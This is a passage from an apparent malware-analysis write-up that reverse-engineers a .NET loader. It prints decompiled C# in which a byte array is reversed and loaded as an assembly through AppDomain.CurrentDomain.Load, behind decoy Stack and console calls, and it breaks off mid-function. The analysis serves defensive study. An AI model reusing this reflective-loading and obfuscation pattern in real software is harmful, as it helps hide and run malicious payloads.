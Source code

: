 Now we can move into the next function, `Class1.smethod_1()`.

```cs
static void smethod_1()
{
    List<byte> list = new List<byte>();
    byte[] array = Class2.smethod_0();
    Stack val = new Stack();
    val.Push((object)"Welcome");
    val.Push((object)"Tutlane");
    val.Push((object)20.5f);
    val.Push((object)10);
    val.Push((object)null);
    int num = array.Length;
    while (num-- > 0)
    {
        list.Add(array[num]);
    }
    val.Push((object)100);
    foreach (object? item in val)
    {
        Console.WriteLine(item);
    }
    AppDomain.CurrentDomain.Load(list.ToArray());
}
```

Within the function there is immediately some interesting code. First, there is a `byte[]` array that holds content from `Class2.smethod_0()` byte arrays in malware tend to include string or binary content, so my hypothesis for the array is that is designed to hold one of those. The code then manipulates a Stack object, pushing objects onto it. It doesn't seem to use them in a productive way outside a subsequent `Console.WriteLine` call. The byte array does get used, in a reversal algorithm. The `num` variable and following `while` loop starts with the ending element of the byte array and moves backward to the first, adding each element to a list. After the reversal, the list gets converted back to an array and used as a parameter for [`AppDomain.CurrentDomain.Load()`](https://docs.microsoft.com/en-us/dotnet/api/system.appdomain.load?view=net-6.0#system-appdomain-load(system-byte())). This call is designed to load an arbitrary .NET assembly into the current application domain. This is roughly similar to `System.Reflection.Assembly.Load()`. This adds some credence to our hypothesis from earlier, that the byte array will likely hold binary content that translates into an assembly. So let's pivot over to that function to see what it does.

```cs
internal class Class2 : Process
{
internal static byte[] smethod_0()
{
    string[] array = new string[3]
    {
        "Dot",
        "Net",
        "Perls"
    };
    Stack<string> val = new Stack<string>((IEnumerable<string>)array);
    Enumerator<string> enumerator = val.GetEnumerator();
    try
    {
        while (enumerator.MoveNext())
        {
            string current = enumerator.get_Current();
            Console.WriteLine(current);
        }
    }
    finally
    {
        ((IDisposable)enumerator).Dispose();
```